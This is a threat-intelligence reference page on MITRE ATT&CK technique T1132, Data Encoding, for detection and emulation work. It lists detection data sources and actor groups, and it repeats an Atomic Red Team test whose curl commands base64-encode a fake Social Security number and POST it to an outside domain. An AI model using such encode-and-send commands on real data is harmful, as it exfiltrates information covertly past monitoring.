 
# Data Encoding

## Description

### MITRE Description

> Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: True
* Permissions: ['User']
* Platforms: ['Linux', 'macOS', 'Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1132

## Potential Commands

```
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.redcanary.com

echo -n 111-11-1111 | base64
curl -XPOST MTExLTExLTExMTE=.#{destination_url}

```

## Commands Dataset

```
[{'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST #{base64_data}.redcanary.com\n',
  'name': None,
  'source': 'atomics/T1132/T1132.yaml'},
 {'command': 'echo -n 111-11-1111 | base64\n'
             'curl -XPOST MTExLTExLTExMTE=.#{destination_url}\n',
  'name': None,
  'source': 'atomics/T1132/T1132.yaml'}]
```

## Potential Detections

```json
[{'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['Packet capture']},
 {'data_source': ['Network protocol analysis']},
 {'data_source': ['5156', 'Windows Firewall']},
 {'data_source': ['4688', 'Process Execution']},
 {'data_source': ['Packet capture']},
 {'data_source': ['Network protocol analysis']}]
```

## Potential Queries

```json

```

## Raw Dataset

```json
[{'Atomic Red Team Test - Data Encoding': {'atomic_tests': [{'auto_generated_guid': '1164f70f-9a88-4dff-b9ff-dc70e7bf0c25',
                                                             'description': 'Utilizing '
                                                                            'a '
                                                                            'common '
                                                                            'technique '
                                                                            'for '
                                                                            'posting '
                                                                            'base64 '
                                                                            'encoded '
                                                                            'data.\n',
                                                             'executor': {'command': 'echo '
                                                                                     '-n '
                                                                                     '111-11-1111 '
                                                                                     '| '
                                                                                     'base64\n'
                                                                                     'curl '
                                                                                     '-XPOST '
                                                                                     '#{base64_data}.#{destination_url}\n',
                                                                          'name': 'sh'},
                                                             'input_arguments': {'base64_data': {'default': 'MTExLTExLTExMTE=',
                                                                                                 'description': 'Encoded '
                                                                                                                'data '
                                                                                                                'to '
                                                                                                                'post '
                                                                                                                'using '
                                                                                                                'fake '
                                                                                                                'Social '
                                                                                                                'Security '
                                                                                                                'number '
                                                                                                                '111-11-1111.',
                                                                                                 'type': 'string'},
                                                                                 'destination_url': {'default': 'redcanary.com',
                                                                                                     'description': 'Destination '
                                                                                                                    'URL '
                                                                                                                    'to '
                                                                                                                    'post '
                                                                                                                    'encoded '
                                                                                                                    'data.',
                                                                                                     'type': 'string'}},
                                                             'name': 'Base64 '
                                                                     'Encoded '
                                                                     'data.',
                                                             'supported_platforms': ['macos',
                                                                                     'linux']}],
                                           'attack_technique': 'T1132',
                                           'display_name': 'Data Encoding'}}]
```

# Tactics


* [Command and Control](../tactics/Command-and-Control.md)


# Mitigations

None

# Actors


* [APT19](../actors/APT19.md)

* [Lazarus Group](../actors/Lazarus-Group.md)
    
* [Patchwork](../actors/Patchwork.md)
    
* [BRONZE BUTLER](../actors/BRONZE-BUTLER.md)
    
* [APT33](../actors/APT33.md)
    
